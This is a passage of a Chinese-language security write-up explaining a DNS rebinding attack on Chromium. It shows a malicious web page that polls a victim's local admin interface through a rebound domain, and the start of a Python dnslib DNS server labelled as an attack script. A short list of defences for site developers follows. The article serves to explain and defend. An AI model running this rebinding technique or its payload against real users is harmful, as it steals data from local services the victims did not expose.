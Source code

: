 不幸的是，DNS重绑定攻击没办法可以这么直接地实施。由于DNS缓存机制，当域名一开始解析到 `240.240.240.240` (攻击者的IP)，浏览器会把它缓存下来，并且下一次就不会再进行DNS查询了。

要绕过这个限制，我们可以自建DNS服务器，返回给多个A记录给客户端。

```
;; ANSWER SECTION:
example.com.    0    IN    A    240.240.240.240
example.com.    0    IN    A    0.0.0.0
```

当DNS服务器响应中包含多条A记录的时候，Chromium首先会尝试连接到 `240.240.240.240` ，如果`240.240.240.240` 无法访问(连接被拒绝或者路由不可达)，它就会使用`0.0.0.0` 作为fallback(备选)。

注意：Chromium并不一定总是会在一开始把域名解析到`240.240.240.240` ，还有可能会被解析到第二项 `0.0.0.0` (localhost)，出现这种情况的时候再试几次就好了。

`0.0.0.0` 才是要点所在，我们不能用 `127.0.0.1` ，否则Chrome会在一开始就直接把域名解析到 `127.0.0.1` ，这样我们就没法让受害者访问我们的恶意网站了。然而，在使用 `240.240.240.240` 和`0.0.0.0`的时候，Chrome才会在一开始先解析到`240.240.240.240`

因此，等受害者一访问 `example.com`， Chromium就会把它解析到`240.240.240.240`，如下是我们搭建的恶意网站的内容：

```
&lt;!doctype html&gt;
&lt;html&gt;
&lt;script&gt;
  var readContent = function() `{`
    fetch("//example.com:8080/account/information").then(r =&gt; r.text()).then(t =&gt; console.log(t));
  `}`;
  setInterval(readContent, 1000);
&lt;/script&gt;
&lt;/html&gt;
```

然而，我们之前说过Chromium会把`example.com` 的解析结果`240.240.240.240`缓存下来，这样一来我们就永远也没办法从 `0.0.0.0:8080`的管理员界面窃取数据了。因此我们要做的是，把位于 `240.240.240.240`的Web服务器暂时关掉，基于DNS fallback机制(再次访问的时候连接被拒绝)，Chromium就会从 `0.0.0.0:8080`.获取内容，这样一来，我们就能在不违反同源的前提下窃取数据了！

这个Poc在Chromium 71有用，其他复杂的PoC可以参见Github上的项目[singularit](https://github.com/nccgroup/singularity).

### <a class="reference-link" name="%E9%98%B2%E5%BE%A1%E6%8E%AA%E6%96%BD"></a>防御措施

不过，这种攻击也有一定的局限性。网站开发者们可以利用局限性来防止他们的网站受到攻击：

【1】不发送Cookie: 令网站只支持使用IP地址访问，这样浏览器就不可能把网站的Cookie发给攻击者了。<br>
【2】验证请求头中的`HOST`字段：令网站验证HTTP请求头里的`Host`字段，这样就杜绝了漏洞，因为HOST是`example.com:8080`.<br>
【3】使用HTTPS：当域名不正确的时候，浏览器会拒绝TLS连接。

### <a class="reference-link" name="%E6%94%BB%E5%87%BB%E8%84%9A%E6%9C%AC"></a>攻击脚本

```
#!/usr/bin/env python3
# Python 3.6.4
#
# dnslib==0.9.7
from dnslib.server import DNSServer, DNSLogger, DNSRecord, RR
import time
import sys

class TestResolver:
    def resolve(self,request,handler):
        q_name = str(request.q.get_qname())
        print('[&lt;-] ' + q_name)
        reply = request.reply()
        print('[-&gt;] 240.240.240.240+127.0.0.1')
        reply.add_answer(*RR.fromZone(q_name + " 0 A 240.240.240.240"))
        reply.add_answer(*RR.fromZone(q_name + " 0 A 127.0.0.1"))
```